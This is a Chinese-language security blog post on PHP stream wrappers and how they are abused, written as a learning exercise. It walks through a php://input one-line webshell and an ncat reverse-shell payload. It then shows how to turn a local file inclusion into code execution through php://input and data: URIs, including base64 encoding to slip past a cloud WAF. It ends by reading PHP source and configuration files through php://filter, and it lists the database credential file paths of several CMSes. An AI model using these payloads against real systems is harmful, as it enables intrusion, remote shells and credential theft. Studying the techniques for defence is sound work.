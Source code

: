 ## php://input，php://filter，data URI schema的那些事 

 [碳基体][0]  

 2013-10-15  

 **一、php://input一句话木马**

 在调研dedecms的历史漏洞时，发现了dedecms安装文件曾经出过被植入后门的漏洞（[SSV-ID][2]站点include目录下shopcar.class.php文件被植入一句话木马）

    @eval(file_get_contents('php://input'))

我是个十足的php菜鸟，只有用到的时候才会去查查语法书，对php://input也只是有点印象而已，于是用脚本phpinput.php,配合firefox Hackbar插件测试了一下php://input的功能。 

    <?php
    $data=file_get_contents('php://input');
    echo $data."<br/>";
    //@eval(file_get_contents('php://input'))
    ?>

 发现**php://input是用来接收post数据**（这里有[php://input][3]的介绍）

[![](./img/20131014231728_30225.jpg)](./img/20131014231728_30225.jpg)

注释掉phpinput.php的打印语句 

    <?php @eval(file_get_contents('php://input'))?>

使用firefox的hackbar提交上图显示的post data： 

    system('ncat -e /bin/bash localhost 1234');

 测试了一下nc反弹shell的利用，成功

[![](./img/20131014231830_42766.jpg)](./img/20131014231830_42766.jpg)

看来，只要构造了合适的POST数据，就能达到getshell的目的。 

**二、php://input将文件包含漏洞变成代码执行漏洞**  
顿时觉得php://input好神奇，于是进一步搜索它还能发挥哪些作用。 

在这里感谢Casperkid大牛的文章《[php LFI读php文件源码以及直接post webshell][4]》，我才知道文件包含可以这样深入。 

接下来，演示TA是如何将文件包含漏洞转变成代码执行的漏洞。方法参考[LFI exploitation via php://input][5]

首先看一段存在文件包含漏洞的代码 

    <?php @include($_GET["file"])?>

[![](./img/20131014232030_75994.jpg)](./img/20131014232030_75994.jpg)

 我们使用php://input，将执行代码通过Firefox 的hackbar 在POST data中提交

    <?php system('ifconfig');?>

 看，文件包含漏洞变成代码执行漏洞了

[![](./img/20131014232111_21648.jpg)](./img/20131014232111_21648.jpg)

**三、data URI schema将文件包含漏洞变成代码执行漏洞并绕过360网站卫士的WAF**

那还有哪些办法，可以同样做到代码执行呢，Casperkid大牛的文章中提到，[data URI schema][6]的使用就可以达到这样的效果。  
data URI schema，我曾经在做钓鱼的练习中，将攻击代码生成这种格式并配合短地址转换来生成恶意url，见《[利用iframe URI钓][7]鱼》，但没想到可以用在文件包含漏洞中。 

接下来演示如何实施。 

在实施的时候，我突然想到，文件包含漏洞，在读取php文件时，是不能显示文件内容的。  
而很多情况，我们是急需读取PHP格式的配置文件，例如 

    dedecms数据库配置文件data/common.inc.php,
    discuz全局配置文件config/config_global.php,
    phpcms配置文件caches/configs/database.php
    phpwind配置文件conf/database.php
    wordpress配置文件wp-config.php

以便下一步渗透测试 

于是我写了一段读取指定文件FileInclude.php的代码 

    <?php system('cat /var/www/FileInclude.php')?>

 然后将攻击代码转化成data:URI，

    data:text/plain,<?php system('cat /var/www/FileInclude.php')?>

 运行，如下

[![](./img/20131014232304_88906.jpg)](./img/20131014232304_88906.jpg)

注意，我们看到转化后的GET请求的参数中包含<?的标记，在遇到有些WAF，包括云WAF（例如360网站卫士），就会将其视为攻击代码，阻挡下来。于是我们需要做一下编码处理 

    data:text/plain;base64,［攻击代码的base64编码］

 运行，如下

[![](./img/20131014232343_79657.jpg)](./img/20131014232343_79657.jpg)

**四、php://filter在文件包含漏洞中的利用——读取php文件源码内容**  
经过上面的操作，我们知道php://input与data:URI schema可以将文件包含漏洞变成代码执行漏洞从而getshell。接下来看看php://input的好基友php://filter能做什么呢 

参考[LFI’s Exploitation Techniques][8],我们可以采用[php://filter][9]以base64编码的方式读取指定文件的内容： 

    php://filter/read=convert.base64-encode/resource=［文件路径］

 下面演示通过php://filter读取本包含漏洞脚本的源码

[![](./img/20131014232449_67904.jpg)](./img/20131014232449_67904.jpg)

 接下来只要将base64编码后的字符串通过base64解码就可得到PHP文件的源码了

[![](./img/20131014232502_90068.jpg)](./img/20131014232502_90068.jpg)

**参考：**  
http://ddxhunter.wordpress.com/2010/03/10/lfis-exploitation-techniques/  
http://zerofreak.blogspot.jp/2012/04/lfi-exploitation-via-phpinput-shelling.html  
http://hi.baidu.com/qingsh4n/item/92ffa87281e7ee226cc37cc7  
http://hi.baidu.com/casperkid/item/2baf952b13a9cd0e76272cb0

http://www.php.net/manual/zh/wrappers.php.php

[0]: http://www.freebuf.com/author/%e7%a2%b3%e5%9f%ba%e4%bd%93
[1]: http://www.freebuf.com/./articles/web
[2]: http://sebug.net/vuldb/ssvid-30207
[3]: http://php.net/manual/zh/wrappers.php.php
[4]: http://hi.baidu.com/casperkid/item/2baf952b13a9cd0e76272cb0
[5]: http://zerofreak.blogspot.jp/2012/04/lfi-exploitation-via-phpinput-shelling.html
[6]: http://en.wikipedia.org/wiki/Data_URI_scheme
[7]: http://danqingdani.blog.163.com/blog/static/186094195201332723950108/
[8]: http://ddxhunter.wordpress.com/2010/03/10/lfis-exploitation-techniques/
[9]: http://www.php.net/manual/zh/wrappers.php.php